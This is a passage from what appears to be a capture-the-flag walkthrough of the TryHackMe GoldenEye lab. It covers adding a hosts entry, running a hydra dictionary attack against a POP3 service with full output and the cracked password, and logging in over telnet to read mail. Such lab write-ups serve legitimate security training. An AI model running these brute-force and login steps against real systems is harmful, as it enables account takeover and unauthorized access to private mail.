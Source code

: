 10. Keep enumerating users using this service and keep attempting to obtain their passwords via dictionary attacks.

## Task 3 GoldenEye Operators Training

Enumeration really is key. Making notes and referring back to them can be lifesaving. We shall now go onto getting a user shell.

1. If you remembered in some of the emails you discovered, there is the severnaya-station.com website. To get this working, you need up update your DNS records to reveal it. If you're on Linux edit your "/etc/hosts" file and add:

`<machines ip> severnaya-station.com`

If you're on Windows do the same but in the "c:\Windows\System32\Drivers\etc\hosts" file

2. Once you have done that, in your browser navigate to: http://severnaya-station.com/gnocertdir
3. Try using the credentials you found earlier. Which user can you login as?
4. Have a poke around the site. What other user can you find?

`doak`

5. What was this users password?

```
kali@kali:~/CTFs/tryhackme/GoldenEye$ hydra -l doak -P /usr/share/wordlists/rockyou.txt pop3://10.10.74.5:55007
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-24 18:24:29
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.7.77:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.7.77   login: doak   password: goat
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-24 18:26:52
```

6. Use this users credentials to go through all the services you have found to reveal more emails.

```
kali@kali:~/CTFs/tryhackme/GoldenEye$ telnet 10.10.74.5 55007
Trying 10.10.74.5...
Connected to 10.10.74.5.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER doak
+OK
PASS goat
+OK Logged in.
list
+OK 1 messages:
1 606
.
RETR 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 97DC24549D
        for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
```